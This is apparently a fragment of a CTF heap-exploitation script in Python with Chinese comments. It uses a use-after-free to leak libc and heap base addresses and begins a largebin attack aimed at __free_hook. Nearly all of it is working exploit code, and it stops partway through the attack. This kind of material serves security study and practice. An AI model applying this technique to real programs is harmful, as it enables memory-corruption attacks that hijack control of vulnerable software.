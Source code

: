 ```python
#role1 calloc(0x150)，用于切割出0xa0的small bin chunk
Change(1)
Add(0x150, 'A'*0x68) # A0
#填充0x160 tcache，使得 A0进入 unsortedbin
for x in range(7):
    Add(0x150, 'A'*0x68) # A1~A7
    Del(1+x)
#A0放入 unsortedbin
Del(0)

#切割 A0，剩余0xa0放入smallbin
Change(2)
Add(0xb0, 'B'*0x28) # B5 split 0x160 to 0xc0 and 0xa0

#同样道理 利用0x190切割 0xa0放入 smallbin
Change(1)
Add(0x180, 'A'*0x78) # A8
for x in range(7):
    Add(0x180, 'A'*0x78) # A9~A15
    Del(9+x)
Del(8)

Change(2)
Add(0xe0, 'B'*0x38) # B6 split 0x190 to 0xf0 and 0xa0

#----- leak libc_base and heap_base
#role1 calloc(0x430)，用于放入largbin，泄漏地址
Change(1)
Add(0x430, 'A'*0x158) # A16

#间隔top chunk
Change(2)
Add(0xf0, 'B'*0x48) # B7

#释放A16进入unsorted bin
Change(1)
Del(16)

#使 A16 进入 largebin
Change(2)
Add(0x440, 'B'*0x158) # B8
#利用 UAF先泄漏 libc地址
Change(1)
Show(16)
ru('message is: ')
libc_base = uu64(rl()) - 0x1ebfe0
lg('libc_base')
#利用UAF泄漏heapbase地址
Edit(16, 'A'*0xf+'\n')
Show(16)
ru('message is: '+'A'*0xf+'\n')
heap_base = uu64(rl()) - 0x13940
lg('heap_base')

print("---> 1 largbin attack to change __free_hook-8")
#----- first largebin_attack
# recover,fd,bk不对的话在largebin中找不到
Edit(16, 2*p64(libc_base+0x1ebfe0) + b'\n') 
#A17直接largebin中得到(A16)
Add(0x430, 'A'*0x158) # A17
Add(0x430, 'A'*0x158) # A18
Add(0x430, 'A'*0x158) # A19
Change(2)
```